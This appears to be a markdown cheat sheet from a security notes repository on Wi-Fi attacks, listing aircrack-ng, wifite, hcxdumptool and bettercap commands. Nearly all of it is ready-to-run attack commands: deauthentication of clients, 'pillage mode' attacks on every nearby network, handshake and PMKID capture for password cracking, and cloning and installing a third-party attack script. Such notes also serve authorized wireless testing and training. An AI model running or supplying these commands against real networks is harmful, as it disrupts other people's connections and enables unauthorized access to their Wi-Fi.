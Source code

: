 # Wifi Sniffing

## Airmon

```bash
airmon-ng
airmon-ng start wlan0mon
airmon-ng stop wlan0mon
airmon-ng start wlan0mon 9 (channel 9)
```

Disable all network services for monitor mode:

```bash
airmon-ng check kill
```

## Airodump

```bash
airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon
```

## Aireplay

```bash
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon
```

## Airdecap-ng

```bash
airdecap-ng -e 'the ssid' -p passphrase  tkip.cap
```

The capture file must contain a valid four-way handshake. For this purpose having (packets 2 and 3) or (packets 3 and 4) will work correctly. In fact, you don't truly need all four handshake packets.

As well, only data packets following the handshake will be decrypted. This is because information is required from the handshake in order to decrypt the data packets.

## Wash

Can be used to know if WPS is actived on router

```bash
sudo wash -i wlan0mon
```

## Wifite

Automated tools to get all the handshakes of network we scan.

Can be use with other softwares to send the handshakes in a special format on a website to crack the WI-FI password using a lot of connected servers.

```bash
sudo wifite --dict '/home/kali/Downloads/custom-smprepchar-app0-100.txt' --clients-only --power 27 --bully --wps --infinite -p 30
```

### Infinite mode

 Loop and continue after each attack. (scan 60 sec)

```bash
sudo wifite -inf -mac -p 60 --kill --clients-only --no-wps --no-pmkid --skip-crack
```

### Pillage mode

Attack all wireless with connected clients after 5 minutes scan.

```bash
sudo wifite -mac -p 300 --kill --clients-only --no-wps --no-pmkid --skip-crack
```

## Hxcdump

Use Hxcdump to Capture PMKIDs from Local Networks

```bash
sudo airmon-ng start wlan0

sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
```

## Lazy Script

```bash
cd (back to user folder)
git clone https://github.com/arismelachroinos/lscript.git
cd lscript
chmod +x install.sh
./install.sh
```


## Bettercap

Get handshakes easily for all networks

```bash
sudo bettercap --iface wlan1mon
help wifi
wifi.recon on (wifi sniffing)
wifi.show
wifi.deauth all (interface deauthentification)
set wifi.handshakes '/desiredfolderlocation' (choose directory for hanhshakes)

wifi.assoc all (PMKID Attack) (use all or MAC address)
wifi.show
```
